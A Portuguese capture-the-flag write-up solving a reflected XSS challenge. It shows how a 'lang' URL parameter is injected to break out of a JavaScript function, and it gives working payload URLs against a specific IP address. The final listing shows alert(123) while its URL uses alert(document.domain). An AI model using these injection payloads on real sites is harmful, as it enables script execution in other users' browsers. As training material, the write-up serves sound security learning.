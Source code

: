 Resolução do Desafio "DOM" XSS Reflected - https://bountyleaks.cf/challenge/dom.php

1.  Ao acessarmos a página, vemos um trecho de código em JS
```
// Its not used anymore
function display_message(){
 var lang = "en-US";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}

// just say hello, doesnt matter what language do you speak, english is universal LOL
document.write('<h1>Welcome hacker =)</h1>');
```
2. Nesse ponto, levanta-se a suspeita que existe alguma querystring / parâmetro de URL que podemos manipular
Provavelmente a aplicação detecta qual o idioma do navegador do usuário ou aceita receber isso via parâmetro (refletindo na página).
3. Como não temos certeza, aqui caberiam duas abordagens:
3.1 Verificar que existem duas variáveis JS (lang e message) e verificar se via querystring elas são refletidas na página (?lang=teste e ?message=teste)
3.2 Utilizar algum fuzzer (ffuf, x8, dalfox, arjun) para usar um arquivo / lista cheio de parâmetros e ver qual pode estar refletindo na página: comando -url http://194.61.28.250/dom.php?FUZZAQUI=teste
4. Fazendo algum destes modos supracitados, chegamos a conclusão que acessando: http://194.61.28.250/dom.php?lang=123, faz com que o trecho de código da página vire:
// Its not used anymore
function display_message(){
 var lang = "123";
Dessa forma o valor informado pelo usuário via URL está refletindo na página (dando margem para injeção de códigos)
5. Como já estamos dentro de um contexto JS (dentro das tags script), não é preciso que a gente reabra essas tags para executar um javascript, mas mesmo assim, podemos confirmar que a aplicação não permite tags como < e > : http://194.61.28.250/dom.php?lang=123< 
Ao acessá-la, o parâmetro "var lang" volta para seu valor padrão: "en-US"
6. Então para executar o XSS, vamos precisar ter um pouco de conhecimento de JS, pois é o contexto que estamos inseridos: 
6.1 Nossa entrada de dados está sendo refletida dentro de um valor de variável (lang) que está dentro de uma função chamada display_message(), que por sua vez não é chamada automaticamente pelo site, somente declarada
6.2 Precisaremos, então, sair do contexto dessa função que não é chamada, para que nosso XSS seja executado assim que o usuário entrar na página
6.3 Para isso, precisamos fechar aquela chave da função display_message () "{", com uma chave fechando esse bloco de código: "}"
6.4 Caso acessássemos a URL: http://194.61.28.250/dom.php?lang=";%0a}%0aalert(123);// 
Considerando %0a para \n (quebra de linha), ficando o trecho de código do nosso site agora:
``` 
function display_message(){
 var lang = " ";
}
alert(123);//";
if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```
6.5 Conseguimos! Saímos do escopo da função JS, mas o JS não irá triggar, devido a um erro de sintaxe:
Não estamos mais dentro de uma função e existe linhas falando "return". O valor vai ser retornado pra onde? Não existe função englobando ela para esse retorno ficar explícito.
Esse erro inclusive será alertado em seu console do navegador. Qualquer erro de sintaxe JS dos sites voltam nele.
6.6 Vamos então criar uma outra função, fingindo que existe uma outra função logo após, englobando esses returns, então:
http://194.61.28.250/dom.php?lang=%22;%0a}%0aalert(document.domain);%0afunction%20nuncaserachamada(){//
Ficando nosso código:
```
function display_message(){
 var lang = "";
}
alert(123);
function nuncaserachamada(){//";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

Pronto =), XSS executado o/
